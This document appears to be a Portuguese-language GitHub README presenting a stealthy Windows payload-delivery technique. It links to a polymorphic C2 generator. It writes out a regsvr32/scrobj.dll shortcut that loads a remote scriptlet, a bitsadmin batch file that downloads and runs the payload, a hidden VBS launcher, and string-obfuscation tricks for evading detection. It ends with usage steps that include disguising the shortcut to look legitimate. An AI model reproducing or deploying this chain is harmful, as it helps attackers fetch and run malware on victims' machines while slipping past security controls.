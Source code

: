 # Técnica de Execução Stealth para Scripts PowerShell

Este repositório demonstra técnicas avançadas para executar scripts PowerShell de maneira furtiva, contornando controles de segurança comuns. A implementação utiliza binários legítimos do Windows, transferência de arquivos em segundo plano e ofuscação para evitar detecção.

## Visão Geral

Esta técnica pode ser implementada de várias formas, incluindo o uso do regsvr32.exe para scriptlets (.sct) ou utilizando BITS (Background Intelligent Transfer Service), um serviço legítimo do Windows usado para downloads em segundo plano.

## Gerar o C2 em PS1
https://github.com/ticofookfook/C2-polimorfico

## Componentes e Técnicas

### 1. Técnica baseada em regsvr32 (SCT)

O ponto de entrada é um atalho do Windows com as seguintes propriedades:
```powershell
Destino: %windir%\System32\regsvr32.exe
Argumentos: /s /u /i:http://[ip-servidor]/[nome-script].sct scrobj.dll
Ícone: %SystemRoot%\System32\devmgr.dll,0
Estilo da Janela: Minimizada

O arquivo SCT (Scriptlet) contém código JScript ofuscado com múltiplas técnicas de evasão.

2. Técnica baseada em BITS Admin (mais confiável)
Um método alternativo que oferece maior confiabilidade em ambientes protegidos:

Execução via script BAT e VBS
### Criar arquivo batch
@echo off
rem Executar silenciosamente
bitsadmin /transfer myDownloadJob /download /priority high http://[ip-servidor]/[nome-script].sct "%TEMP%\data.tmp" > nul
regsvr32 /s /u /i:"%TEMP%\data.tmp" scrobj.dll
exit

Criar script VBS para execução oculta
Set WshShell = CreateObject("WScript.Shell")
WshShell.Run "cmd.exe /c ""%TEMP%\config.bat""", 0, False

3. Técnicas de Evasão
A implementação usa múltiplas camadas de evasão:

Inversão de Strings: Strings como "powershell.exe" são armazenadas invertidas

Conversão de Código de Caracteres: Strings críticas construídas a partir de códigos ASCII

Expansão de Variáveis de Ambiente: Construção dinâmica de caminhos do sistema

Execução Oculta: Agora via VBS, evitando janelas do CMD

Uso de Serviços Legítimos: BITS é um componente do Windows usado para Windows Update

4. Cadeia de Execução
A cadeia completa de execução usando BITS:

Usuário clica no atalho

wscript.exe executa o .vbs em segundo plano

O .vbs chama cmd.exe para rodar o .bat sem exibição de janela

O batch executa o bitsadmin para baixar o payload

regsvr32 carrega o payload baixado

Conteúdo é executado sem criar janelas visíveis

###Uso
Hospede o arquivo .sct em um servidor HTTP

Hospede seu payload PowerShell como "teste.ps1" no mesmo servidor

Crie o atalho para o script VBS em vez do BAT

O ícone e o nome do atalho podem ser personalizados para parecerem legítimos

Detalhes Técnicos
BITSAdmin
Ferramenta nativa do Windows para gerenciar o serviço BITS

Raramente bloqueada por soluções de segurança por ser essencial para o Windows Update

Permite downloads em segundo plano com alta confiabilidade

regsvr32
/s: Execução silenciosa (sem diálogos)

/u: Desregistra componente (usado como parte da técnica)

/i:<URL>: Especifica o script a ser carregado

scrobj.dll: O Script Component Runtime que processa o scriptlet

Considerações de Segurança
Esta técnica é eficaz em contornar controles de segurança porque:

Utiliza binários confiáveis do Windows (técnica living-off-the-land)

BITS é um serviço essencial raramente bloqueado

Comandos fragmentados e ofuscados previnem detecção

A execução ocorre totalmente em segundo plano sem janelas visíveis

Utiliza métodos de transferência legítimos usados pelo próprio Windows


